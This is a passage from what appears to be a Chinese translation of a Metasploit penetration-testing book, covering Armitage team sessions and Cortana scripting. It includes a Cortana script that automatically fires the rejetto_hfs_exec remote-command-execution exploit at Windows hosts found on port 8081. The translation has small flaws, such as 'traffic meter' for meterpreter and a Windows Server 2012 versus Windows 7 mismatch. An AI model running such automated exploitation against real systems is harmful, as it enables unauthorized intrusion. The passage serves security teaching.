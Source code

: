 我们可以看到，用户`Kislay`也可以查看扫描的所有活动。但是，对于用户`Kislay`访问流量计，他需要切换到控制台空间，输入`sessions`命令，后跟标识符，如下图所示：

![](img/8218027f-00c6-475a-829b-0ae2a630698d.png)

我们可以看到，与使用 Metasploit 的单个实例相比，Armitage 使我们能够在团队环境中更高效地工作。让我们看看如何在下一节编写 Armitage 脚本。

# 脚本 Armitage

Cortana 是一种脚本语言，用于在 Armitage 中创建攻击向量。渗透测试人员使用 Cortana 进行红队和虚拟克隆攻击向量，使它们像机器人一样行动。然而，红色团队是一个独立的团队，它向组织提出挑战，以提高其效率和安全性。

Cortana 通过使用脚本语言使用 Metasploit 的远程过程客户端。它在控制 Metasploit 的操作和自动管理数据库方面提供了灵活性。

此外，Cortana 脚本在特定事件发生时自动执行渗透测试仪的响应。假设我们正在 100 个系统的网络上执行渗透测试，其中 29 个系统运行在 Windows Server 2012 上，另一个系统运行在 Linux 操作系统上，我们需要一种机制来自动利用每个 Windows Server 2012 系统，该系统在端口`8081`上运行 HttpFileServer httpd 2.3 使用 Rejetto HTTPFileServer 远程命令执行漏洞。

我们可以快速开发一个简单的脚本，使整个任务自动化，并节省大量时间。自动执行此任务的脚本将在每个系统出现在网络上时利用`rejetto_hfs_exec`漏洞进行攻击，并对它们执行预定的攻击后功能。

# Cortana 的基本原理

使用 Cortana 编写基本攻击脚本将有助于我们更广泛地理解 Cortana。那么，让我们来看一个示例脚本，它自动利用 Windows 操作系统的端口`8081`进行攻击：

```
on service_add_8081 { 
      println("Hacking a Host running $1 (" . host_os($1) . ")"); 
      if (host_os($1) eq "Windows 7") { 
              exploit("windows/http/rejetto_hfs_exec", $1, %(RPORT => "8081")); 
      } 
} 
```
